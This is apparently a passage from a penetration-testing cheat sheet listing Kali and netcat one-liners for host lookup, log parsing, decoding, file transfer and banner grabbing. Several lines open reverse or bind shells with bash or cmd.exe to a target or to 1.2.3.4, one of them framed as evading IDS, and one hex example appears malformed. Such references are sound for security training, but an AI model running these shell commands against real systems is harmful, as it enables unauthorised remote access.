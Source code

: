    *   Use a bash loop to find the IP address behind each host  
        `for url in $(cat list.txt); do host $url; done`

    *   Collect all the IP Addresses from a log file and sort by frequency  
        `cat access.log | cut -d " " -f 1 | sort | uniq -c | sort -urn`

*   Decoding using Kali

    *   Decode Base64 Encoded Values

        `echo -n "QWxhZGRpbjpvcGVuIHNlc2FtZQ==" | base64 --decode`

    *   Decode Hexidecimal Encoded Values  
        `echo -n "46 4c 34 36 5f 33 3a 32 396472796 63637756 8656874" | xxd -r -ps`

*   Netcat - Read and write TCP and UDP Packets

    *   Download Netcat for Windows (handy for creating reverse shells and transfering files on windows systems):[https://joncraton.org/blog/46/netcat-for-windows/](http://web.archive.org/web/20171113221652/https://joncraton.org/blog/46/netcat-for-windows/)

    *   Connect to a POP3 mail server  
        `nc -nv $ip 110`

    *   Listen on TCP/UDP port  
        `nc -nlvp 4444`

    *   Connect to a netcat port  
        `nc -nv $ip 4444`

    *   Send a file using netcat  
        `nc -nv $ip 4444 < /usr/share/windows-binaries/wget.exe`

    *   Receive a file using netcat  
        `nc -nlvp 4444 > incoming.exe`

    *   Some OSs (OpenBSD) will use nc.traditional rather than nc so watch out for that...

            whereis nc
            nc: /bin/nc.traditional /usr/share/man/man1/nc.1.gz

            /bin/nc.traditional -e /bin/bash 1.2.3.4 4444

    *   Create a reverse shell with Ncat using cmd.exe on Windows  
        `nc.exe -nlvp 4444 -e cmd.exe`

        or

        `nc.exe -nv <Remote IP> <Remote Port> -e cmd.exe`

    *   Create a reverse shell with Ncat using bash on Linux  
        `nc -nv $ip 4444 -e /bin/bash`

    *   Netcat for Banner Grabbing:

        `echo "" | nc -nv -w1 <IP Address> <Ports>`

*   Ncat - Netcat for Nmap project which provides more security avoid IDS

    *   Reverse shell from windows using cmd.exe using ssl  
        `ncat --exec cmd.exe --allow $ip -vnl 4444 --ssl`

